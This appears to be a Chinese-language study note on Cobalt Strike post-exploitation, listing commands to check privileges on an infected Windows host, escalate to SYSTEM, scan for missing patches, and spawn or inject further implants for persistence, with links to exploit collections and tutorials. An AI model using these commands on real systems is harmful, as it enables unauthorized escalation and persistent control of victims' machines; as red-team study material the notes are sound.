


# [提权漏洞](https://www.bilibili.com/video/BV1Md4y1A7Di/?)

## 查看权限

在<code>Cobalt Strike</code>中获取中木马的用户相关信息：

~~~  shell
getuid //获取用户ID
getprivs //获取木马进程拥有的权限
getsystem //获取WIN系统的system权限

shell whoami //获取用户信息
shell net user //获取用户信息
shell net localgroup administrators //获取用户组
~~~

## 提升权限

+ 本地提权一般都用的<code>CVE</code>漏洞，可通过搜索现成的 <code>DLL</code> 动态链接库、<code>Cobalt Strike</code>插件或者 <code>Metasploit</code> 插件拿来试试，如果没有可尝试编写代码等方式

# [漏洞扫描](https://www.bilibili.com/video/BV1dD4y1z7Ep/?spm_id_from=333.880.my_history.page.click&vd_source=1e325091774aa31c4dcd65d8667c69de)

~~~ shell
run systeminfo //查看中毒电脑的系统、补丁等信息
~~~

+ 本地提权一般都用的<code>CVE</code>漏洞，可通过搜索现成的 <code>DLL</code> 动态链接库、<code>Cobalt Strike</code>插件或者 <code>Metasploit</code> 插件拿来试试，如果没有可尝试编写代码等方式

~~~ python
漏洞集合：
https://github.com/swisskyrepo/PayloadsAllTheThings
https://github.com/lyshark/Windows-exploits
https://github.com/bitsadmin/wesng
https://github.com/n1nj4sec/pupy
~~~

# [权限维持](https://www.bilibili.com/video/BV1Ca41197H3/?spm_id_from=333.999.0.0)

~~~ shell
spawn [listener_name] //在目标机启动一个监听器类型的木马
run dll32 //重启一个新木马连接本机服务器
spawnu //在另外一个进程启动一个新木马,新木马是另一个进程的子进程;如果另一个进程终止则新木马也会被终止，同样如果另一个进程运行则新木马也运行
spawnas //作为另一个用户启动新木马
spawnto //在进程里注入木马进程
~~~

[Windows提权基础](https://zhuanlan.zhihu.com/p/572730623)

[Linux 提权原理及10种提权姿势](https://www.freebuf.com/articles/system/257457.html)

[ 如何在内网中提升权限](https://www.freebuf.com/articles/web/381088.html)

[Android的root提权漏洞](https://blog.csdn.net/tangsilian/article/details/77916056)

